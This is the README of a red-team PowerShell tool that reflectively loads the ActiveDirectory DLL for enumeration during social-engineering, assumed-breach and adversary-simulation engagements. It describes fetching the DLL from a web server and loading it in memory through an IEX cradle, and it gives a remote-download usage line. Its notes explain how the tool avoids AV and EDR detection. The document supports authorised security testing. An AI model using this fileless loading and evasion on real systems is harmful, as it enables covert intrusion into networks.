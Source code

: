 # ActiveDirectory Reflective DLL Module Loading 

## Description
The `import-ad.ps1` module can be imported or executed through an IEX cradle to reflectively load the ActiveDirectory module into any PowerShell session running on .NET CLR4.0+  
The ActiveDirectory DLL `Microsoft.ActiveDirectory.Management.dll` can be uploaded to the host and specified in the `-Path` parameter.  
Alternatively, the DLL can be hosted on a webserver, with optional Basic authentication, and reflectively loaded in memory without touching disk.  
Intended to be used on social engineering, assumed breach, and adversary simulation to enable robust AD enumeration. You can try using PowerView if you want, if you like losing shells that is.  
This technique, script included, is not unique to the ActiveDirectory module, as many native PS modules are imported from dll or psd1. If you find a PS module that can be imported through a native dll, this script would work just as well for that. This was just written with the express purpose of getting the AD module onto domain joined hosts early on in an engagement to enable AD enumeration.

## Usage
```
Syntax:
Import-AD [[-Path] <string>]
Import-AD [-URI <string>] [-Username <string>] [-Password <string>]

Examples:
Import-AD -Path C:\Microsoft.ActiveDirectory.Management.dll

Import-AD -URI https://contoso.com/ad.dll -Username XzcDqb5GqU1dJENS -Password m8mlY67jNYJdFDGdsz3a4nNmQW
```

## Files

| File | Purpose |
|:--- |:--- |
| `Microsoft.ActiveDirectory.Management.dll` | An authentic copy of the ActiveDirectory dll, copied directly from a Windows Server 2016. To be uploaded to target or hosted on a web server |
| `import-ad.ps1` | Import-AD PowerShell function to load the ActiveDirectory module. This can be uploaded to target, copied directly into a PowerShell terminal, or executed through an IEX cradle |
| `import-ad.b64` | Base64 encoded version of `import-ad.ps1` in UTF-16LE, to be used in an IEX cradle. |


## Notes
- Very low likelihood of being flagged by AV and EDR. Not 100% saying this will fly by, as the web method does use `net.webclient` to download binary data and `[System.Reflection.Assembly]` for the reflective loading
- The reflective loader is, generally, not needed for a dll already on disk. Typically you could just use `Import-Module <DLLPath>` with a compatible dll.
    - Perhaps it can bypass restrictions on module importing? I left it here because it should work 99+% of the time
- Modified from the original source on GitHub to not store the entire dll as a byte array, removed Get-Help sections, changed var names, added an HTTP downloader.

## Ref
[Original Source](https://github.com/samratashok/ADModule)
